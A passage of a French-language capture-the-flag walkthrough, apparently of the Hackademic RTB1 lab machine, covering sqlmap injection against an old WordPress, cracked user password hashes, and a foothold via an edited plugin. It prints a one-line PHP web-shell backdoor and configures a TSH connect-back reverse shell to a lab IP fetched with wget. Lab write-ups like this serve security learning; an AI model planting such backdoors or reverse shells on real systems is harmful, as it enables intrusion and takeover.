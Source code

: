 Bien, *SQLmap* voit bien comment injecter du SQL dans la paramètre. On va pouvoir lui passer des options supplémentaires pour obtenir certaines infos comme :  

* --current-user qui retourne 'root@localhost'
* --current-db qui retourne 'wordpress'
* --passwords qui nous retourne le hash 2eaec110380126d7 pour le user root

Malheureusement, l'option *--os-shell* ne fonctionne pas, les droits sur */var/www/html/* doivent être trop restreints.  

Avec les options de dump (comme *--dump-all* qui prends beaucoup de temps) on peut récupérer les tables MySQL.  

En l'occurence les pages vulnérables sont celles d'un vieux *WordPress 1.5.1.1*.  

Dans la table des utilisateurs ont trouve les passwords hashés en MD5, facilement cassables avec [MD5RDB](http://md5.noisette.ch/):  

NickJames 21232f297a57a5a743894a0e4a801fc3 admin  

JohnSmith b986448f0bb9e5e124ca91d3d650f52c PUPPIES  

GeorgeMiller 7cbb3252ba6b7e9c422fac5334d22054 q1w2e3  

TonyBlack a6e514f9486b83cb53d8d932f9a04292 napoleon  

JasonKonnors 8601f6e1028a8e8a966f6c33fcd9aec4 maxwell  

MaxBucky 50484c19f1afdaf3841a0d821ed393d2 kernel  

On teste les différents logins sur l'interface d'administration *Wordpress* et on obtient un accès satisfaisant avec l'utilisateur *GeorgeMiller*.  

En particulier il est possible d'éditer le contenu des modules PHP. On édite le fichier *wp-content/plugins/hello.php* et on peut l'appeler directement pour faire exécuter notre PHP.  

Un *phpinfo()* révèle une configuration banale avec peu de protections (*safe\_mode off*, pas de fonctions désactivées).  

On ajoute une backdoor PHP toute simple :  

```plain
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
```

Puis on compile un [TSH](http://packetstormsecurity.com/files/31650/tsh-0.6.tgz.html) en mode connect-back (à cause de la présence du firewall) que l'on peut rapatrier via wget.  

Pour compiler *TSH* en mode connect-back il faut éditer *tsh.h* et dé-commenter deux lignes, par exemple de cette façon :  

```c
#define CONNECT_BACK_HOST  "192.168.1.3"
#define CONNECT_BACK_DELAY 10
```

Après il faut lancer le client en mode connect-back sur notre machine (*./tsh cb*) puis le serveur via notre backdoor PHP (*./tshd*).  

On est sur une *Fedora 12* 32bits avec un kernel 2.6.31 (*Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux*)  
.
